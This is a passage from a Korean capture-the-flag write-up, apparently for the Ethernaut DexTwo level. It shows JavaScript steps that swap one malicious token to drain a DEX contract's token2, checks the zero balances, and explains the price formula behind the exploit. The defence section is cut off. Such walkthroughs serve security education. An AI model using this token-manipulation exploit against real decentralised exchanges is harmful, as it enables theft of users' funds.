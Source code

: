 ### 3단계: Token2 탈취
```javascript
// token2 주소 확인
const token2Address = await contract.token2();

// DexTwo에 다시 악의적인 토큰 1개 전송
await malToken.methods.transfer(contract.address, 1).send({from: player});

// 승인
await malToken.methods.approve(contract.address, 1).send({from: player});

// token2 100개 탈취
await contract.swap(malTokenAddress, token2Address, 1);
```

### 4단계: 공격 검증
```javascript
// DexTwo의 잔액 확인 (모두 0이어야 함)
const token1Balance = await contract.balanceOf(token1Address, contract.address);
const token2Balance = await contract.balanceOf(token2Address, contract.address);

console.log("DexTwo token1 balance:", token1Balance.toString()); // 0
console.log("DexTwo token2 balance:", token2Balance.toString()); // 0

// 공격 성공!
```

## 🎊 공격 성공 결과

- **DexTwo token1 잔액**: 0
- **DexTwo token2 잔액**: 0  
- **Player token1 잔액**: 110 (원래 10 + 탈취한 100)
- **Player token2 잔액**: 110 (원래 10 + 탈취한 100)

## 🔍 공격 원리 분석

### 핵심 수식
```
swapAmount = (amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this))
```

**공격 시나리오**:
- `amount = 1` (악의적인 토큰)
- `IERC20(to).balanceOf(address(this)) = 100` (정상 토큰)
- `IERC20(from).balanceOf(address(this)) = 1` (악의적인 토큰)
- **결과**: `swapAmount = (1 × 100) / 1 = 100`

→ **악의적인 토큰 1개로 정상 토큰 100개 탈취!**

## 🛡️ 방어 방법
